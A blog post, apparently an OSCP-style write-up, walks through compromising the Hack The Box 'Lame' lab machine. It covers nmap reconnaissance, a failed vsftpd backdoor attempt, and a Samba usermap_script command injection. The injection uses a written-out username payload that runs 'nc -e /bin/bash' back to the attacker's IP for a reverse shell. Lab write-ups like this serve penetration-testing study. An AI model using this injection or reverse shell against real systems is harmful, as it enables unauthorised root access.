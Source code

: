```yaml
---
layout: post
title: Lame
tags: [OSCP, writeup]
description: "Lame write-up"
---
```


![](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```bash
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

![](/assets/imgs/lame/ftp_exploit_manually.PNG)

Then we connect to the bind shell on port 6200.

![](/assets/imgs/lame/ftp_nc.PNG)

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

## Exploit

------

Download the metasploit exploit :

```bash
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands. (https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

I want a reverse shell so my payload should look something like this :

```
./=`nohup nc -e /bin/bash 10.10.14.3 4444`
```

Let's try it !

Open a nc listener :

```bash
nc -lvp 4444
```

Then triggered the exploit.

![](/assets/imgs/lame/smb_exploit.PNG)

We have a connection back to our listener and we are "root", nice !

![](/assets/imgs/lame/smb_exploit_reverse_shell.PNG)

### Shell upgrade

Now that we have a shell, let's upgrade it :

![](/assets/imgs/lame/shell_upgrade.PNG)

And now go read the flags !

## Flags

------

### User.txt

![](/assets/imgs/lame/user.PNG)

### Root.txt

![](/assets/imgs/lame/root.PNG)